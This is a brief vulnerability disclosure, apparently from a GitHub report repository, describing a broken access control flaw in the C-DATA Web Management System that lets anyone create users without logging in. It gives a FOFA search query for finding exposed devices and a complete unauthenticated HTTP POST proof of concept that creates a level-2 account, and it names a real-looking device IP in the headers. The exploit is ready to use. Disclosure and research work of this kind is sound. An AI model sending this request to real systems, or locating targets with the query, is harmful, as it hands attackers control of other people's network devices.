 ## C-DATA Web Management System Arbitrary User Create

C-DATA Web Management System has a broken access control, which will result in arbitrary user create.

fofa: title=="Wi-Fi Web管理"

POC below：

```
POST /cgi-bin/jumpto.php?class=user&page=config_save&isphp=1 HTTP/1.1
Host: ********
Content-Length: 64
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://176.118.126.224
Referer: http://176.118.126.224/cgi-bin/jumpto.php?class=system&page=ls
Accept-Language: zh-CN,zh;q=0.9
Connection: close

call_function=user&opt=3&user=foofoo&level=2&newpassword=foofoo123

```

![image](https://github.com/sleepyvv/vul_report/assets/55875284/f6f9d46d-322c-4283-83ac-11898414aeb3)

Note: no cookie in the request header 

Then we can see the user is successfully created.

![image](https://github.com/sleepyvv/vul_report/assets/55875284/5c3ab103-8af8-4a43-9606-9d2313c82e19)
